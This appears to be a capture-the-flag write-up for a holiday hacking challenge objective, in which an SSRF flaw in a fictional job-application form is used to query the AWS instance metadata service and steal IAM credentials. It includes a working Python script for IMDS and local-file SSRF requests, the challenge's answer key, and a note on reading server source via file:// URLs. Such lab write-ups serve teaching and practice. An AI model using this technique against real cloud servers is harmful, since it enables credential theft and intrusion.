





# Now Hiring!

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [apply website](https://apply.jackfrosttower.com/)<br/>
**Terminal hint**: [IMDS Exploration](../hints/h10.md)


## Objective

!!! question "Request"
    What is the secret access key for the [Jack Frost Tower job applications server](https://apply.jackfrosttower.com/)? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.


## Hints

??? hint "AWS IMDS Documentation"
    The [AWS documentation for IMDS](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) is interesting reading.


## Solution

As noted by Noxious O’Dor after solving the [IMDS Exploration](../hints/h10.md) terminal, *"anytime you see URL as an input, test for SSRF"*. So, let's head straight for the [application form](https://apply.jackfrosttower.com/?p=apply) and fill in some random values to see how things behave. Depending on whether a URL is submitted or not the response will look different. For example, using the name *Alf the dyslexic elf* and an `http://169.254.169.254/latest` IMDS API endpoint as the report URL will result in a confirmation message containing additional text and a broken image.

=== ":material-web-off: Skipping the NLBI report URL"
    { class=border }

=== ":material-web-plus: Submitting an NLBI report URL"
    { class=border }

Inspecting the network requests using the web browser's developer tools shows that the missing image actually has the same name we submitted via the form, `Alf the dyslexic elf.jpg`. It also shows that the request to retrieve the image returned an HTTP 200 response, meaning it must exist. Downloading [`Alf the dyslexic elf.jpg`](../artifacts/objectives/o10/Alf%20the%20dyslexic%20elf.jpg) using `curl` reveals that the file doesn't contain any image data at all, but the output from a request to the server's `http://169.254.169.254/latest` IMDS API endpoint.



Now that we've confirmed the website is vulnerable to [SSRF](https://portswigger.net/web-security/ssrf) we can either keep submitting the form via a web browser like we've done so far, use `curl` to both submit the form and retrieve the image data, or write a [small script](../tools/objectives/o10/get_ssrf_data.py) that automates the form submission and image retrieval for either an IMDS API endpoint or a local `file://` URL. 

??? example "get_ssrf_data.py"
    ```python linenums="1"
    #!/usr/bin/env python
    import requests
    import click


    @click.command()
    @click.option('-n', '--name', default="Alf the dyslexic elf", help='Your preferred name.')
    @click.option('-a', '--api-endpoint', default="/", help='The IMDS API endpoint to query.')
    @click.option('-f', '--file', help='The full path to a local file.')
    def cli(name: str, api_endpoint: str, file: str):
        url = "https://apply.jackfrosttower.com"

        # Create the file or IMDS URL to retrieve
        if file:
            message = f"local file {file}"
            ssrf_url = f"file://{file}"
        else:
            message = f"IMDS {api_endpoint}"
            ssrf_url = f"http://169.254.169.254{api_endpoint}"

        # Application form fields
        params = {
            'inputName': name,
            'inputEmail': "",
            'inputPhone': "",
            'resumeFile': "",
            'inputWorkSample': ssrf_url,
            'additionalInformation': "",
            'submit': "",
        }

        # Submit the form
        sess = requests.Session()
        resp = sess.get(url, params=params)

        # If the request was successful, download the JPG file and print the contents
        if resp.status_code == 200 and "recipients rejoice!" in resp.text:
            print("Form submission successful.")
            print(f"Retrieving {message}:")
            print(sess.get(f"{url}/images/{name}.jpg").text)
        else:
            print("Error submitting form.")


    if __name__ == '__main__':
        cli()
    ```

The key data we're after is stored under `/latest/meta-data/iam/security-credentials/<role_name>`, so we first need to request `/latest/meta-data/iam/security-credentials` and then use the role name in a followup request to retrieve all credential details.



!!! done "Answer"
    CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX


!!! note "PHP application flaw"
    Using `python get_ssrf_data.py -f '/var/www/html/index.html'` to access the web application source at  `/var/www/html/index.html` we can see that the PHP code doesn't verify if an actual NLBI report URL was submitted and simply assumes that what is sent back is an image. The intent was to personalize the confirmation message by including the applicant's profile picture, but instead it introduced the SSRF vulnerability.

    
